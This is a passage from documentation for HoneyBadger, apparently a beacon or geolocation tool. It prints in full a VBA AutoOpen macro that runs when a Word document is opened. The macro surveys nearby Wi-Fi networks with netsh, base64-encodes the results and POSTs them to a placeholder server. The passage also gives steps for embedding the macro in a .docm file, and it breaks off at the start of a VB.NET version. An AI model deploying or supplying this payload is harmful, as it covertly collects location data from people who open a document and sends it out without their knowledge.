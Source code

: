 
### 2. VBA Macro ###
The VBA macro code are not included as comments in the generated popup for the sake of brevity. The VBA macro functionality is explained here. In short, the VBA macro imitates the powershell script.

    Sub AutoOpen()
        ' Create an instance of a WSH shell for system commands
        Set objWSH = CreateObject("WScript.Shell")

        ' Run the netsh command via powershell for automatic wireless survey
        wifi = objWSH.Exec("powershell netsh wlan show networks mode=bssid | findstr 'SSID Signal Channel'").StdOut.ReadAll
        
        ' Open a file handle to a temporary file and write netsh results to file
        Open Environ("temp") & "\wifidat.txt" For Output As #1
            Print #1, wifi
        Close #1
        
        ' Read contents in from temp file, fixing encoding issues with the web request
        wifi = objWSH.Exec("powershell Get-Content %TEMP%\wifidat.txt -Encoding UTF8 -Raw").StdOut.ReadAll

        ' Remove the temporary file
        Kill Environ("temp") & "\wifidat.txt"

        ' Base64-encode the netsh data for sending.
        wifienc = objWSH.Exec("powershell -Command ""& {[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes('" & wifi & "'))}""").StdOut.ReadAll

        ' Create a web object
        Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")

        ' Open the connection via POST request to the HoneyBadger server
        objHTTP.Open "POST", "http://<SERVER>:5000/api/beacon/aedc4c63-8d13-4a22-81c5-d52d32293867/VBA"

        ' Set request headers to make the server aware of the POST form data
        objHTTP.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"

        ' Send the properly formatted POST form to the server
        objHTTP.Send "os=windows&data=" & wifienc
    End Sub

To use the macro code, simply open a document, paste this macro inside, and save as a .docm file. Upon opening and accepting to run code, the macro will be triggered and the beacon will be added.


### 3. VB.NET Script ###
The VB.NET code is identical in function and near identical in structure to the VBA macro. Changes needed to be made to make it a valid VB.NET script, for version difference issues between VB.NET and VBA. Like the macro, the VB.NET functionality is explained here:

    Imports System.IO
    
    Module HoneyBadgerBeacon
        Sub Main()
            ' Create and initialize a new WSH shell object
            Dim objWSH As New Object
            objWSH = CreateObject("WScript.Shell")
